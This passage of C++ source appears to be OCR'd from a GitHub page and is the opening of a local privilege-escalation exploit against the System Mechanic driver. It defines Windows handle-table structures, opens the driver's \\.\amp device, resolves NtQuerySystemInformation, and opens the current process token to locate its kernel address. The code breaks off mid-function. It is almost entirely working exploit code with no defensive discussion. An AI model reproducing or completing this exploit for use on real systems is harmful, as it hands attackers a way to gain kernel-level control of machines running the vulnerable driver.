 ```cpp
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength);

// define the SYSTEM_HANDLE_TABLE_ENTRY_INFO structure
typedef struct _SYSTEM_HANDLE_TABLE_ENTRY_INFO
{
    USHORT UniqueProcessId;
    USHORT CreatorBackTraceIndex;
    UCHAR ObjectTypeIndex;
    UCHAR HandleAttributes;
    USHORT HandleValue;
    PVOID Object;
    ULONG GrantedAccess;
} SYSTEM_HANDLE_TABLE_ENTRY_INFO, *PSYSTEM_HANDLE_TABLE_ENTRY_INFO;

// define the SYSTEM_HANDLE_INFORMATION structure
typedef struct _SYSTEM_HANDLE_INFORMATION
{
    ULONG NumberOfHandles;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO Handles[1];
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;

int main(int argc, char **argv)
{

    // open a handle to the device exposed by the driver - symlink is \\.\amp
    HANDLE device = ::CreateFileW(
        L"\\\\.\\amp",
        GENERIC_WRITE | GENERIC_READ,
        NULL,
        nullptr,
        OPEN_EXISTING,
        NULL,
        NULL);
    if (device == INVALID_HANDLE_VALUE)
    {
        std::cout << "[!] Couldn't open handle to the System Mechanic driver. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Opened a handle to the System Mechanic driver!\n";

    // resolve the address of NtQuerySystemInformation and assign it to a function pointer
    pNtQuerySystemInformation NtQuerySystemInformation = (pNtQuerySystemInformation)::GetProcAddress(::LoadLibraryW(L"ntdll"), "NtQuerySystemInformation");
    if (!NtQuerySystemInformation)
    {
        std::cout << "[!] Couldn't resolve NtQuerySystemInformation API. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Resolved NtQuerySystemInformation!\n";

    // open the current process token - it will be used to retrieve its kernelspace address later
    HANDLE currentProcess = ::GetCurrentProcess();
    HANDLE currentToken = NULL;
    bool success = ::OpenProcessToken(currentProcess, TOKEN_ALL_ACCESS, &currentToken);
    if (!success)
    {
        std::cout << "[!] Couldn't open handle to the current process token. Error code: " << ::GetLastError() << std::endl;
```